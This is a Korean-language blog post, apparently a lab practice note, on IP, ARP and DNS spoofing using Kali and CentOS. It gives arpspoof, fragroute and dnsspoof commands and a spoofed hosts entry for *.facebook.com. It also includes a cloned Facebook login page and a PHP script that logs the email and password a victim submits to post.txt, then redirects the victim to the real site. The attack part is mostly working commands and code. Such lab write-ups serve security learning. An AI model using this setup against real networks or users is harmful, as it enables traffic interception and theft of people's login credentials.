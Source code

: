 ```yaml
---
layout: single
title: Spoofing 
categories: 정보보안

---  
```

  
&nbsp;&nbsp;Kali와 CentOS에서 ARP Spoofing과 DNS Spoofing을 실습해보자.

<h2>IP Spoofing</h2>
&nbsp;&nbsp;IP Spoofing이란 자신의 ip를 변조해 자신이 만든 패킷을 다른 컴퓨터가 만든 패킷처럼 만드는 것이다.


<h2>Fragroute</h2>

&nbsp;&nbsp;포트 포워딩을 해주는 도구. 
&nbsp;&nbsp;ARP Spoofing을 하게 되면 자신에게 패킷이 오게 되는데, 이후 다시 피해자가 지정한 곳에 피해자의 패킷을 보내주기 위해 사용한다. 만약 이를 사용하지 않으면 피해자의 패킷이 나에게만 오고 전달되야할 곳에 전달이 안되서 피해자가 정상적인 네트워크를 사용하지 못한다. 

```
fragroute -B1
```

<h2>ARP Spoofing</h2>

`arp -a` : 현재 MAC 테이블 확인

`route -n`  : 게이트웨이 주소 확인

```arpspoof -i [인터페이스 이름] [target ip] [gateway ip]```

&nbsp;&nbsp;와이어샤크를 이용해 패킷을 확인해 보면 target에서 내 ip를 통해 패킷을 보내고 내 PC에서 게이트웨이에 다시 패킷을 보내 도청하고 있는 것을 알 수 있다. 여기서 응용해 DNS Spoofing을 해보자.


<h2>DNS Spoofing</h2>

&nbsp;&nbsp;공격자의 apache2를 실행해주고 피해자가 지정된 domain에 접근시 공격자의 html로 접근해 피해자가 입력하는 정보를 탈취하는 방법을 실습해보자.

&nbsp;&nbsp;facebook.html을 다운 받고 이를 /etc/www/html에 삽입해주자. 파일명은 index.html로 만들어주자. index.html에서 
method 옆 action 기존 내용을 지우고 php파일을 삽입해주자.
  
```html
action="post.php" method=POST
```

&nbsp;&nbsp;action에 지정된 post.php 파일을 생성해 주자.

```php
<?php
$file="post.txt";
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
?>
<meta http-equiv="refresh" content="0; url=http://www.facebook.com">
```

&nbsp;&nbsp;이 php는 post.txt에 피해자가 입력한 정보를 입력해주고 피해자를 다시 원래의 facebook으로 접속하게 해준다. 이제 dnsspoof를 이용하기 위해 host.txt 파일을 생성해 주자. dnsspoof의 경우 파일을 통해 호스트와 url을 지정해 줄 수 있다. 

```
[피해자 ip] *.facebook.com
```

&nbsp;&nbsp;그리고 이제 이 파일을 이용해서 dnsspoof 명령어를 실행해주자.

```
dnsspoof -i [인터페이스 이름] -f /경로/hosts.host
```

&nbsp;&nbsp;이제 피해자 PC에서 nscd를 이용해 dns를 초기화해줘야 한다. 

```
systemctl restart nscd
```
&nbsp;&nbsp;이 후에 피해자 컴퓨터에서 페이스북에 접근을 시도하면, 아까 지정해준 공격자의 index.html에 접근하게 되고 피해자가 e-mail과 비밀번호를 입력할 시 아까 생성한 post.txt에 입력된다. 

&nbsp;&nbsp;~~<strong>이 방법이 성공하지 않을 수 있다.</strong> 이러한 공격을 막기 위해 웹 브라우저에서 자체적으로 보통 차단하기 때문에 성공하지 않을 수 있다. 만약에 이를 해결하는 경우 댓글로 알려주시면 감사하겠습니다.~~ firefox의 경우 자동적으로 https로 변환해 실행을 해주기 때문에 이를 해결해주면 된다고 합니다. 


<h2>네트워크 인터페이스가 다를 경우</h2>

&nbsp;&nbsp;VMware를 사용해 실습할 경우 각 OS의 네트워크 인터페이스가 다를 수가 있다. kali는 eth0인데 서버는 ens33이라던지. 이 경우 /etc/default/grub 파일을 수정해 주면 된다.(centOS 기준)
GRUB_CMDLINE_LINUX 부분에
/swap 이 부분 뒤 <strong> [net.ifnames=0] rhgb quite </strong> 이렇게 수정해주도록 하자.


```
grub2-mkconfig -o /boot/grub2grub.cfg  

cd /etc/sysconfig/network-scripts  

mv ifcfg-ens33 ifcfg-eth0  

vi ifcfg-eth0  
```
 
 
&nbsp;&nbsp;생성된 ifcfg에서 name과 device 태그를 eth0로 변경해주자.
재부팅 후 네트워크를 확인하면 이름이 변경된 것을 알 수 있다.
